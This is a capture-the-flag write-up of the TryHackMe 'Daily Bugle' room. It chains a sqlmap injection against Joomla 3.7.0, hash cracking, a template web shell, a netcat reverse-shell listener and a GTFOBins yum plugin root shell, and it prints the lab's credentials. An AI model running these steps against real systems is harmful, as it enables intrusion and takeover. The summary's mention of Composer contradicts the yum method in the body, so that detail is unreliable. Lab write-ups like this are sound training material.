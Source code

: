 # TryHackMe - Daily Bugle 🕵️‍♂️
 
**Room**: [Daily Bugle](https://tryhackme.com/room/dailybugle)  
**Difficulty**: Medium/hard  
**Category**: Web | Privilege Escalation  

---

## Summary

This box involved exploiting a vulnerable Joomla CMS installation to gain a foothold, then escalating privileges by abusing misconfigured `sudo` permissions on Composer. Overall, a great exercise in chaining web-based exploitation with local privilege escalation. There are some random questions in here that I might not go over entirely to shout out the answer.

---

## Recon & Enumeration

### Nmap

```bash
nmap -sC -sV -oA nmap/dailybugle <IP>


22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu
80/tcp open  http    Apache httpd 2.4.18
```
### Web Enum

```
gobuster dir -u http://<ip> -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -o gobusterenum.txt
```
Discovered the site is running Joomla 3.7:

Which has a known RCE vulnerability `JOOMLA VERSION: 3.7.0` https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html:
```
JOOMLA VERSION: 3.7.0


# Exploit Title: Joomla 3.7.0 - Sql Injection
# Date: 05-19-2017
# Exploit Author: Mateus Lino
# Reference: https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
# Vendor Homepage: https://www.joomla.org/
# Version: = 3.7.0
# Tested on: Win, Kali Linux x64, Ubuntu, Manjaro and Arch Linux
# CVE : - CVE-2017-8917
```
Using sqlmap: 
```
sqlmap -u "http://<IP>/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent --dbs -p list[fullordering]
```
| id  | name       | email                                             | password (bcrypt)                                                | username |
| --- | ---------- | ------------------------------------------------- | ---------------------------------------------------------------- | -------- |
| 811 | Super User | [jonah@tryhackme.com](mailto:jonah@tryhackme.com) | \$2y\$10\$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw\.V.d3p12kBtZutm | jonah    |

There is a hash and now we need to crack it using johntheripper: 
```
sudo john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
Cracked password: `spiderman123`

### Joomla Admin Access & Remote Code Execution (RCE)
Logged into Joomla admin with credentials jonah:spiderman123.Because the version is outdated and vulnerable, you can inject malicious PHP code in a template file.
This code lets you execute system commands on the server (Remote Code Execution).
You test this by running a simple command (ls) through the injected PHP shell, confirming you have command execution on the target.
Exploited template editing functionality to inject commands and get RCE:
```
http://10.10.141.15/index.php?cmd=ls
```
```
LICENSE.txt
README.txt
administrator
bin
cache
cli
components
configuration.php
htaccess.txt
images
includes
index.php
language
layouts
libraries
media
modules
plugins
robots.txt
templates
tmp
web.config.txt
```
### Getting a Reverse Shell
Using the Joomla shell, you run a reverse shell payload that connects back to your listener, giving you interactive shell access on the server.
```
nc -nvlp 4444
```
From Joomla RCE, spawned a reverse shell:
```
bash-4.2$ id
uid=48(apache) gid=48(apache) groups=48(apache)
```
### Finding Credentials
Joomla stores its database credentials in a file called configuration.php.
You locate and read this file, finding the MySQL database username and password.
This is important because the database password might be reused elsewhere, or the database user might have higher privileges.
In `configuration.php` :
```
public $user = 'root';
public $password = 'nv5uz9r3ZEDzVjNu';
public $db = 'joomla';
public $dbprefix = 'fb9j5_';

```
### Switching Users
Here we can see the credentials to a user. How about `jjameson`?
```
su jjameson -> Password: nv5uz9r3ZEDzVjNu
```
### Checking Permissions
We can check the permissions of the user:
```
sudo -l
```
```
User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
```
### Privilege Escalation
The best place to check for escalating privileges is GTFO bins. 
`jjameson` can run yum with no password, we can spawn a root shell.
https://gtfobins.github.io/gtfobins/yum/

```
TF=$(mktemp -d) 
```
```
cat > $TF/x <<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

```
```
cat > $TF/y.conf <<EOF
[main]
enabled=1
EOF
```
```
cat > $TF/y.py <<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF
```
```
sudo yum -c $TF/x --enableplugin=y
```
# ROOT!

### Conclusion
The Daily Bugle room demonstrated how critical vulnerabilities in outdated web applications like Joomla 3.7.0 can lead to full system compromise. Starting with enumeration, we identified Joomla running on the target and used a known SQL Injection (CVE-2017-8917) to extract credentials from the database. Cracking the password hash with john gave us access to the Joomla admin panel, where we leveraged template editing for Remote Code Execution.
From there, we escalated our privileges by inspecting the configuration.php file to obtain the MySQL root password, which was reused by a local user. Switching users allowed us to enumerate sudo privileges, revealing that the user jjameson could run yum as root without a password. Using a GTFOBins technique, we exploited the yum plugin system to spawn a root shell.
This room emphasizes the importance of:
Keeping web applications up to date.
Avoiding credential reuse.
Regularly auditing sudo privileges.
Understanding how misconfigurations and known exploits chain together to compromise a system.
